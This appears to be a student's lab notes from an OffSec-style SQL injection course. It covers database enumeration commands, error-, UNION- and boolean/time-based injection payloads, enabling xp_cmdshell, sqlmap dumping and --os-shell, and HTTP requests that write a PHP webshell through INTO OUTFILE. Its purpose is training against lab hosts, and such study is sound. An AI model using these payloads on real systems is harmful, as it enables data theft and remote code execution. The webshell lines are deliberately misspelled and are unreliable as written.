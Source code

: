 - https://portswigger.net/web-security/sql-injection/cheat-sheet
## 10.1.2. DB Types and Characteristics

```bash
mysql -u root -p'root' -h $IP -P 3306

select version();

select system_user();

show databases;

SELECT user, authentication_string, plugin FROM mysql.user WHERE user = 'offsec';
```

```bash
git clone https://github.com/fortra/impacket.git

impacket-mssqlclient Administrator:Lab123@$IP -windows-auth

SELECT @@version;

SELECT name FROM sys.databases;

SELECT * FROM offsec.information_schema.tables;

select * from offsec.dbo.users;
```

## 10.2.1. Identifying SQLi via Error-based Payloads

- https://www.php.net/manual/en/reserved.variables.php

```bash
offsec' OR 1=1 -- //

SELECT * FROM users WHERE user_name= 'offsec' OR 1=1 --

' or 1=1 in (select @@version) -- //

' OR 1=1 in (SELECT * FROM users) -- //

' or 1=1 in (SELECT password FROM users) -- //

' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

## 10.2.2. UNION-based Payloads

For **UNION** SQLi attacks to work, we first need to satisfy two conditions:

1. The injected **UNION** query has to include the same number of columns as the original query.
2. The data types need to be compatible between each column.

```bash
' ORDER BY 1-- //

%' UNION SELECT database(), user(), @@version, null, null -- //

' UNION SELECT null, null, database(), user(), @@version  -- //

' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //

' UNION SELECT null, username, password, description, null FROM users -- //
```

## 10.2.3. Blind SQL Injections

Although "boolean-based" might not seem like a blind SQLi variant, the output used to infer results comes from the web application, not the database itself.

```bash
http://$IP/blindsqli.php?user=offsec' AND 1=1 -- //

http://$IP/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

## 10.3.1. Manual Code Execution

```bash
impacket-mssqlclient Administrator:Lab123@$IP -windows-auth

EXECUTE sp_configure 'show advanced options', 1;

RECONFIGURE;

EXECUTE sp_configure 'xp_cmdshell', 1;

RECONFIGURE;

EXECUTE xp_cmdshell 'whoami';

' UNION SELECT "<?php sIst3m($G3T['commd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

## 10.3.2. Automating the Attack

Another sqlmap core feature is the _--os-shell_ parameter, which provides us with a full interactive shell.

```bash
sqlmap -u http://$IP/blindsqli.php?user=1 -p user

sqlmap -u http://$IP/blindsqli.php?user=1 -p user --dump

sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```

## Capstone 1

```bash
wpscan --url http://alvida-eatery.org/ --token $TOKEN

https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell
```

## Capstone 2

```bash
sqlmap  --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" -r request.txt --proxy http://127.0.0.1:8080 --dump

POST / HTTP/1.1
Host: forestsave.lab
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 120
Origin: http://forestsave.lab
Connection: close
Referer: http://forestsave.lab/
Upgrade-Insecure-Requests: 1

mail-list='+union+select+null,null,null,null,'<?php+sistem($_GEllT["cmkkd"]);+?>',null+into+outfile+'/var/www/html/rce.php'#
```
- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Capstone 3

```bash
POST /class.php HTTP/1.1
Host: $IP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Origin: http://$IP
Connection: close
Referer: http://192.168.205.49/class.php
Upgrade-Insecure-Requests: 1

weight=22&height=2&age=2&gender=Male&email=mda%40mam
```
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md
- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
